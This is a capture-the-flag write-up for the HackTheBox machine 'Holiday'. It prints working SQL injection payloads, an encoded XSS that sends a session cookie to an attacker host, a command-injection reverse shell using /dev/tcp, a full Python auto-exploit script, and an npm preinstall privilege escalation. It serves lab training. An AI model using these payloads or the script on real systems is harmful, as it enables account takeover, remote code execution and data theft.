

Holiday was a hard box from hackthebox. Linux and web, it was not easy because of it's path of exploration consists in many things to do. One web fuzzing with especific User-Agent, then a SQLInjection on login to extract the user hash, after logged in one XSS to get the admin cookie, a session riding to execute commands and then get a reverse shell.

The root is trough sudo command insecure node.

The auto script for algernon is in the post, hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.25
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 8000

We try to open it on the browser


Just one hexagon

We run gobuster in it

```sh
gobuster dir -u http://10.10.10.25:8000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```


Wierdly it does not return anything. We try wfuzz

```sh
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.10.25:8000/FUZZ
```


Also nothing... Let's try dirsearch

```sh
dirsearch -u http://10.10.10.25:8000
```

And it found some pages


I started looking why it does not worked with gobuster and wfuzz. And what I found was on the USER-AGENT of both of then, if we pass a "realistic" user agent it works

```sh
wfuzz -H "User-Agent: Linux" -c -z file,list.txt --hc 404 http://10.10.10.25:8000/FUZZ
```


Okay, maybe we have some filter on the server side making it. I'll check later. But for now, let's move on.

### /login

So, now we see what we have on /login


It's a login page

We try `admin:admin` and got a Invalid Username. It's good, seems to have some kind of way to see if we got a valid username.


We send the request to burp, to better manage it and byppass it

We send again the admin:admin request and see the invalid username in it


We try to bypass the login with wfuzz and a [list](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/) of injections, remember to change the User-Agent and put the --hh 1197,1199 to hide the error message

```sh
wfuzz -H "User-Agent: Linux" -z file,list.txt -d "username=FUZZ&password=admin" --hh 1197,1199 http://10.10.10.25:8000/login
```


Many of them worked, so I get the first one to see what is the response on burpsuite


It's incorrect password, so, we bypass the login, but what is interesting is that it showed me one username, the `RickA`, in a pre-filled form.

With a correct username I tought that I was able to bypass the login with a simple comment `-- -` but it's not possible


It showed me Error Occured, not incorret password or anything else. So possibly my query is getting trouble to be executed on the server.

I tried to put some ( to balance the query and got it working


So, the query is something like this, the hash pass would come first, because of the check, if it's not happening I was going to be in the site authenticated

```
SELECT * FROM users where ((password = hash({password})) and (username = {username}))
```

### SQLInjection

Now, the next step is to get how many columns we have here, with a UNION statement

I start with ")) UNION SELECT 1 -- -, and get an error. The error is because the number of columns expected does not match the UNION. Next I try ")) UNION SELECT 1,2 -- -, and error. At ")) UNION SELECT 1,2,3,4 no error, and I can see the returned username of “2”:


So, probably it's the injection point, we try to get some info on the server with it

I tried to see the version with @@version, version() and now success, so, I tried sqlite_version(), and it worked, because the sql running there is a sqlite


So, now I can extract data from it.

This [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) helps me a lot to make the queries

```
username=0x4rt3mis")) UNION SELECT 1,tbl_name,3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0-- -&password=admin
```

And we get the table names changing the limit and offset

`bookings,users,notes,sessions,`

Which I think is more importat is the users, so let's extract it

```
username=0x4rt3mis")) UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -&password=admin
CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,active TINYINT(1))
```


So we have the columns USERNAME and PASSWORD, let's extract them

```
username=0x4rt3mis")) UNION SELECT 1,username,3,4 FROM users-- -&password=admin
```


And we get a hash

```
username=0x4rt3mis")) UNION SELECT 1,password,3,4 FROM users-- -&password=admin
fdc8cd4cff2c19e0d1022e78481ddf36
```


And we crack it


nevergonnagiveyouup. So we can log on the app

### XSS

We login


When we click in any note we got some information


And when we click on the Notes it shows that it takes one minute to the admin approve it


Seems interesiting, possible a XSS, so I will create it to try to come to me

```js
<script src="http://10.10.14.20/test.js"></script>
```

We add the note and wait one minute


We see that the note get some trouble, so I'll need to make some kind of bypass to make it working properly


We download a huge list of payloads to try it

```bash
wget https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt
```


We send a request to burp


Get the parameters and made our wfuzz command

```sh
wfuzz -H "User-Agent: Linux" -b 'connect.sid=s%3Ac7122110-352c-11ec-8a63-376f72d63222.i3Z6TpFuIpKWpMSiip1AcpxG7w0HcNaG6RHF3iSkBP4' -z file,xss-payload-list.txt -d "uuid=8dd841ff-3f44-4f2b-9324-9a833e2c6b65&body=FUZZ" --hc 200 http://10.10.10.25:8000/agent/addNote
```

And send everything to the server, to see what triggers there


No one trigger the alert message, interesting and no one give me the `<script>` tags, which I need to make XSS.


But if we look at img tag, it's being corrected renderized by the server


So I tried the same way with other [list](https://gist.githubusercontent.com/JohannesHoppe/5612274/raw/60016bccbfe894dcd61a6be658a4469e403527de/666_lines_of_XSS_vectors.html)

```sh
wget https://gist.githubusercontent.com/JohannesHoppe/5612274/raw/60016bccbfe894dcd61a6be658a4469e403527de/666_lines_of_XSS_vectors.html
```


And we wfuzz it again

```sh
wfuzz -H "User-Agent: Linux" -b 'connect.sid=s%3A80697420-353b-11ec-8f58-294d67337c3d.dbsOBPzQOxyCbeCGja%2FyPOvUNrk4sPVNcHm%2Fob3zVYA' -z file,666_lines_of_XSS_vectors.html -d "uuid=8dd841ff-3f44-4f2b-9324-
9a833e2c6b65&body=FUZZ" --hc 200 http://10.10.10.25:8000/agent/addNote
```


One of this list become very good for us

```
javascript:alert(1)</script>"` `>
```

Which showed me:

```
javascript:alert(1)</script>>
```


1 - Quotes wrapping attribute content were stripped.

2 - Any white space inside the attribute was removed.

3 - < and > were not being escaped inside the attribute.

I could use this vulnerability to take advantage of the scripts tag

```
<script></script>"/>
```

Will be, and will be renderized as script, awesome!

```
<script></script>/>
```

So following it, this code must be executed

```
<script>new Image().src='http://10.10.14.20/cookie='+document.cookie;</script>">
```

So we try to send it to the server


We see that it does not render correctly because of the quotes and spaces which the server is blocking and filtering. So we must develop an alternative for this bypass.

After some hard trial and error, we found that it render just charcode. As this [link](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) showed me.

```
<script>eval(String.fromCharCode(... payload ...))</script>" />
```

We create a simple python script to encode the payload

char.py

```py
#!/usr/bin/python3

target = "new Image().src='http://10.10.14.20/cookie='+document.cookie;"
result = []
for c in target:
    result.append(str(ord(c)))
print ', '.join(result)
```


So I try a simple XSS, to see if I can get the things working well

```
<script>eval(String.fromCharCode(110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 58, 47, 47, 49, 48, 46, 49, 48, 46, 49, 52, 46, 50, 48, 47, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59))</script>" />
```


Well, it worked, so now we can start building some more complex payloads

We look at the information of the cookie on my RickA session, HttpOnly is seted to true, so I cannot get the document.cookie by this way. We can do a sort of things to get it


First, we will simply try to get the admin page, to see what it's inside it

0x4rt3mis.js

```js
var req=new XMLHttpRequest();
req.open('GET', 'http://10.10.14.20:9090/?xss=' + btoa(document.body.innerHTML), true);
req.send();
```


```js
<script>eval(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 119, 114, 105, 116, 101, 40, 39, 60, 115, 99, 114, 105, 112, 116, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 46, 49, 48, 46, 49, 52, 46, 50, 48, 47, 48, 120, 52, 114, 116, 51, 109, 105, 115, 46, 106, 115, 34, 62, 60, 47, 115, 99, 114, 105, 112, 116, 62, 39, 41, 59))</script>" />
```

We add the note and wait one minute


And it reaches my box


We base64 decode the page from admin


We open it on localhost and see that we have an admin tab now


We create another js payload to get the admin page

```js
function getAdmin() {
	var req1=new XMLHttpRequest(); 
	req1.open('GET', '#admin' , true); 
	req1.onreadystatechange = function () { 
		if (req1.readyState === req1.DONE) {
			if (req1.status === 200) { 
				 var req2=new XMLHttpRequest(); 
				req2.open('GET', 'http://10.10.14.20:9090?xss=' + btoa(req1.responseText), true);
				req2.send(); 
				}
			}
		}; 
	req1.send();
}

getAdmin();
```


And we get the admin page


What called my attention more was one hidden field with cookie value


### Session Hijacking

So, we need to grab it with our js payload...

```js
function getAdmin() {
	var req1=new XMLHttpRequest(); 
	req1.open('GET', '#admin' , true); 
	req1.onreadystatechange = function () { 
		if (req1.readyState === req1.DONE) {
			if (req1.status === 200) { 
				 var req2=new XMLHttpRequest(); 
				req2.open('GET', 'http://10.10.14.20:9090?xss=' + encodeURI(document.getElementsByName("cookie")[0].value), true);
				req2.send(); 
				}
			}
		}; 
	req1.send();
}

getAdmin();
```

And we send the payload again, and the XSS triggered gave me the cookie I need


Now what I need to do is re-use this cookie on my page and see what I can do as admin

We URL decode it


And reuse it


Now we have access to the admin page

### Hunting RCE

Now, let's start hunting a RCE on this box

We send the request to burp and see what is happening with it

We send `/admin/export?table=!@$%^&` to see bad chars and allowed chars


For my surprise I see that the character `&` is allowed on the server, it's used to send commands to background in linux systems, so I'll try to run a command with it


And we have RCE! Now let's work in our reverse shell, and after that let's make a js to do this all thing together for us

I tried to ping myself, but no sucess because dot is a bad char


So, I'll need to change my ip to hex

[Converter](https://www.ipaddressguide.com/ip)

We convert our ip


And send it to the server to ping us back


So, let's create a bash reverses shell, download and execute it

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/448 0>&1' > shell
cat shell
```


We download it with wget


And execute it


We have shell! Now, let's automate it to auto get a reverse shell

# Auto Shell

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_rev.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell - With XSS!!! - Holiday HackTheBox

import argparse
import requests
import sys
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import os
import re
import ipaddress
from urllib.parse import unquote

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
        
# First, we need to login as RickA to send the XSS to the server
def loginRickA(rhost):
    print("[+] Let's login as RickA !!! [+]")
    url = "http://%s:8000/login" %rhost
    headers = {"User-Agent": "Linux", "Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "RickA", "password": "nevergonnagiveyouup"}
    login = r.post(url, headers=headers, data=data, proxies=proxies)
    if "Orland Wilkinson" in login.text:
        print("[+] Login OKKK!! [+]")
    else:
        print("[+] Something went wrong with the login, check it again !! [+]")
        exit

# Let's built our js malicious
def buildPayload(lhost):
    print("[+] Let's Build Our Payload !!! [+]")
    target = "document.write('<script src=\"http://%s/0x4rt3mis.js\"></script>');" %lhost
    result = ""
    for c in target:
        result += str(ord(c))
        result += ","
    result = result.removesuffix(",")
    global payload
    payload = "<script>eval(String.fromCharCode(%s))</script>\" />" %result
    print("[+] Payload Built !!! [+]")
    
# Build the XSS to make the things for us
def buildJS(lhost):
    print("[+] Let's build our JS to get the Admin COOKIE !! [+]")
    pay = "function getAdmin() {\n"
    pay += "    var req1=new XMLHttpRequest(); \n"
    pay += "    req1.open('GET', '#admin' , true); \n"
    pay += "    req1.onreadystatechange = function () { \n"
    pay += "            if (req1.readyState === req1.DONE) {\n"
    pay += "                    if (req1.status === 200) { \n"
    pay += "                            var req2=new XMLHttpRequest(); \n"
    pay += "                            req2.open('GET', 'http://%s:9090?xss=' + encodeURI(document.getElementsByName(\"cookie\")[0].value), true);\n" %lhost
    pay += "                            req2.send(); \n"
    pay += "                            }\n"
    pay += "                    }\n"
    pay += "            }; \n"
    pay += "    req1.send();\n"
    pay += "}\n"
    pay += "getAdmin();\n"
    f = open("0x4rt3mis.js", "w")
    f.write(pay)
    f.close()

# Let's build our shell script to get the reverse shell
def buildSHELL(lhost,lport):
    print("[+] Let's build our reverse bash shell !! [+]")
    os.system("echo '#!/bin/bash\nbash -i >& /dev/tcp/%s/%s 0>&1' > shell" %(lhost,lport))
    print("[+] Payload Built! [+]")
        
# Now Let's trigger the XSS on the server
def sendXSS(rhost,payload):
    print("[+] Let's Send the XSS To the Server !!! [+]")
    url = "http://%s:8000/agent/addNote" %rhost
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Content-Type": "application/x-www-form-urlencoded"}
    data = {"uuid": "8dd841ff-3f44-4f2b-9324-9a833e2c6b65", "body": "%s" %payload}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    
# Let's receive the cookie from the XSS
def receiveCookie():
    print("[+] Let's receive the cookie from admin!!! [+]")
    os.system("nc -nlvp 9090 > cookie_admin")
    os.system("sleep 65")
    print("[+] Cookie GOT! [+]")
    f = open("cookie_admin", "r")
    admin_cookie = f.readline().strip()
    f.close()
    global cookie_read
    cookie_read = re.search('=s(.*)\s', admin_cookie).group(0)
    cookie_read = cookie_read.removeprefix("=")
    cookie_read = unquote(cookie_read)
    
# Now let's get RCE
def getRCE(lhost,rhost,cookie_read):
    print("[+] Let's get the reverse shell !!! [+]")
    print("[+] First let's convert our ip to hex ! [+]")
    hex_ip = int(ipaddress.ip_address('%s' %lhost))
    print("[+] " + str(lhost) + " = " + str(hex_ip) + " [+]")
    os.system("sleep 5")
    # Making the cookies right
    r.cookies.set('connect.sid', None)
    r.cookies.set('connect.sid', cookie_read)
    # Setting the requests on the url
    os.system("sleep 5")
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"}
    url = "http://" + rhost + ":8000/admin/export?table=%26wget+" + str(hex_ip) + "/shell"
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)
    os.system("sleep 5")
    url = "http://" + rhost + ":8000/admin/export?table=%26bash+shell"
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)
        
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--localip', help='Local ip address or hostname to receive the shell', required=True)
    parser.add_argument('-p', '--localport', help='Local port to receive the shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # First login
    loginRickA(rhost)
    # Build XSS
    buildPayload(lhost)
    # Create the JS
    buildJS(lhost)
    # Create the bash script
    buildSHELL(lhost,lport)
    # Send XSS
    sendXSS(rhost,payload)
    # Receive the admin cookie
    receiveCookie()
    # RCE
    getRCE(lhost,rhost,cookie_read)

    # Clean up the things
    os.system("rm 0x4rt3mis.js")
    os.system("rm shell")
    os.system("rm cookie_admin")

if __name__ == '__main__':
    main()
```

Ok, now let's become root.

# Algernon -> root

With `sudo -l` we see that this user can run npm as root without a password


Searching on the internet we see how npm as root can be dangerous, and we found this [git](https://github.com/joaojeronimo/rimrafall)

We create our own `package.json`

```json
{
  "name": "root_holiday",
  "version": "1.0.1",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

Now, just run it and get root

```sh
sudo npm i 0x4rt3mis/ --unsafe
```


# Source Code Analisys

I'm curious about some points on this box. I'll try to read the source code of the app to understand better how it's working.

We transfer the app folder to our box

```sh
rsync -azP -i algernon@10.10.10.25:app/* .
```


On router.js we found where the sqli happens

The code put whatever we place as username directly on the db query, so, we can inject sql in this field


Detailed


Ok, now let's look how the macro of the xss ocurrs


We see here the approve database being setted to all notes to be done. We can get the admin password of the application, once it always login when approve the note.